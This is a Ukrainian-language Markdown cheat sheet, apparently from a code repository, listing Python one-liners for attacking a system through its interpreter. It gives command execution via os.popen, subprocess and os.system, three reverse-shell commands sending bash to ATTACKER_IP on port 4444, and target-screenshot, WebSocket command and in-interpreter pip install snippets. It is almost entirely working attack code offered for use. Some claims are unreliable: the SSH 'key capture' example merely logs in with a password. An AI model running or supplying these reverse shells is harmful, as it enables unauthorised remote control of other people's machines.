 
# Вектори атак через Python-інтерпретатор

Цей документ містить список основних векторів атак за допомогою Python-інтерпретатора, з прикладами для віддаленого виконання команд, відкриття з’єднання з атакуючою машиною, а також інших методів експлуатації.

## Вектори атак

1. **Виконання команди через `os.popen`**
   - Використовується для виконання команд на системі і повернення результату.
   - **Приклад**: Виведення поточного користувача (whoami) через `os.popen`:
     ```python
     __import__('os').popen('whoami').read()
     ```

2. **Виконання зворотного Shell через Python**
   - Відкриває зворотне з'єднання через Bash з атакуючою машиною на порту 4444.
   - **Приклад**: Відкриття зворотного з'єднання:
     ```python
     __import__('os').popen("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'").read()
     ```

3. **Виконання команди через `subprocess`**
   - Можна використовувати `subprocess` для виконання команд в системі, що дозволяє більш складно інтегрувати команди, наприклад, через аргументи.
   - **Приклад**: Виконання команди на цільовій системі:
     ```python
     import subprocess
     subprocess.Popen(["bash", "-c", "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"])
     ```

4. **Використання `os.system` для зворотного Shell**
   - `os.system` дозволяє виконувати команди в shell.
   - **Приклад**: Встановлення зворотного з'єднання за допомогою `os.system`:
     ```python
     import os
     os.system("bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'")
     ```

5. **Використання Python для перехоплення SSH ключів**
   - Можна створити просту сесію для підключення до SSH-серверу через Python, що дасть змогу зловити ключі.
   - **Приклад**: Використання Python для підключення до SSH через `paramiko`:
     ```python
     import paramiko
     ssh = paramiko.SSHClient()
     ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
     ssh.connect('TARGET_IP', username='user', password='password')
     ```

6. **Захоплення екрану через Python**
   - Використання бібліотеки `pyautogui` для захоплення скріншоту цільової машини.
   - **Приклад**: Зробити скріншот:
     ```python
     import pyautogui
     pyautogui.screenshot('screenshot.png')
     ```

7. **Виконання віддаленого коду через WebSocket**
   - Можна використовувати WebSocket для виконання віддаленого коду на цільовій машині.
   - **Приклад**: Використання WebSocket для віддаленого виконання команд:
     ```python
     import websocket
     ws = websocket.create_connection("ws://TARGET_IP:PORT")
     ws.send("command_to_execute")
     ```

## Інсталяція Python-модулів безпосередньо з Python-інтерпретатора

Іноді під час експлуатації або тестування зловмисник може захотіти встановити додаткові модулі безпосередньо через Python-інтерпретатор, не виходячи з нього. Ось як можна зробити інсталяцію:

1. **Інсталяція за допомогою `subprocess`**:
   - Використовує команду `pip` для встановлення пакета:
   ```python
   import subprocess
   import sys
   subprocess.check_call([sys.executable, "-m", "pip", "install", "pyautogui"])
   ```

2. **Інсталяція через `pip` бібліотеку**:
   - Можна використовувати метод `pip.main()`, якщо ви працюєте зі старішими версіями Python:
   ```python
   import pip
   pip.main(['install', 'pyautogui'])
   ```

3. **Альтернативний метод**: 
   - За допомогою **`subprocess`** можна також використовувати інші методи для більш контрольованого виконання.
   ```python
   import subprocess
   subprocess.check_call([sys.executable, "-m", "pip", "install", "pyautogui"])
   ```


